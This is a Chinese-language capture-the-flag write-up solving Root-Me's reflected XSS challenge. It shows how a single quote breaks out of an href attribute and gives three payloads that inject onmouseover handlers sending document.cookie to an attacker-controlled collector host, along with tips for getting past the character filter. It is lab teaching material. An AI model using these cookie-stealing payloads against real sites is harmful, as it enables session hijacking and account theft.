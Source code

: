 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-client/xss-reflected/)]

------

题目已经提示是反射型 XSS 的题型，但题目已经提示了 **admin 不会点击所有可疑的 XSS 链接**， 亦即我们要想办法令我们的 XSS 在 **不被点击** 的前提下触发。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/01.png)

看过了所有页面，只有在 Contact us 页面的留言区有输入点，但不是注入点，因为留言后页面提示这里会扔掉所有消息并不会查看。

查看页面源码，发现有一个隐藏页面 Security ， 但打开发现是个 404 页面。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/02.png)

不过注意到，修改 URL 中的 `?p=${xxx}` ， 404 页面中会对应打印 `The page ${xxx} could not be found.` ，其中 `${xxx}` 被嵌入到 &lt;a&gt; 标签的 href 属性：`<a href="?p=${xxx}" >${xxx}</a>`，怀疑这里可能是一个 XSS 注入点。

不过测试发现，这个注入点对很多 html 符号做了过滤，`<>"+` 等符号都被过滤了，注入难度较高。唯独单引号 `'` 没有被过滤，因此可以用它来关闭前一个 href 属性，注入可以触发 XSS 的属性。

尝试构造 URL 的 payloads 参数：`?p=exp' onmousemove='alert(1)`，发现 &lt;a&gt; 标签被注入成为 `<a href="?p=exp" onmousemove="alert(1)">`，亦即成功注入了 `onmousemove` 属性，当鼠标经过这个链接时，就会触发 XSS 。

而之所以注入 `onmousemove` 属性而非 `onclick` 属性，是因为题目已经明确表示  **admin 不会点击所有可疑的 XSS 链接** ，因此注入的 XSS 行为是不能通过点击触发的，且必须是 js 脚本。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/03.png)

据此可以构造真正的 payloads 了，下面几条都是我构造的有效 payloads ，任选一条均可。其中 `${HOST}` 是通过 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器：

```javascript
# 注意构造 payloads 的时候必须清楚哪些字符是被过滤的，尤其是 +，此处用 concat 代替
# 这 3 条 payloads 任一条均可用
exp' onmouseover='document.location=%22${HOST}?%22.concat(document.cookie)
exp' onmouseover='document.write(%22<img src=${HOST}?%22.concat(document.cookie).concat(%22 />%22))
exp' onmouseover='setTimeout(function()%7Bdocument.location=%22${HOST}?%22.concat(document.cookie);%7D,1)
```

点击 `REPORT TO THE ADMINISTRATOR` 按钮提交 payloads， 然后在 `${HOST}` 等待 robot 触发 XSS 即可（大概需要一分钟）。若触发成功则会收到一个 flag ，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/04.png)
![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/05.png)

> 本题要点：
<br/>　　○ flag 是在 cookie 里面的，因此必须窃取 `document.cookie`
<br/>　　○ 必须要清楚哪些字符被过滤了，尤其注意 `+` 也是在过滤列表中，即使编码成 `%2B` 也绕不过去，很多同学构造号 payloads 后，在本地可以触发，但是提交后 rotbot 却不触发，就是这个原因。
<br/>　　○ `onmousemove`、`onmouseover`、`onmouseenter`、`onmouseout` 等 &lt;a&gt; 的属性都是可以被 rotbot 触发的
<br/>　　○ robot 真的很仿真，而且似乎还担心触发不到事件，只要 payloads 是对的，就会连续触发 5 次

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
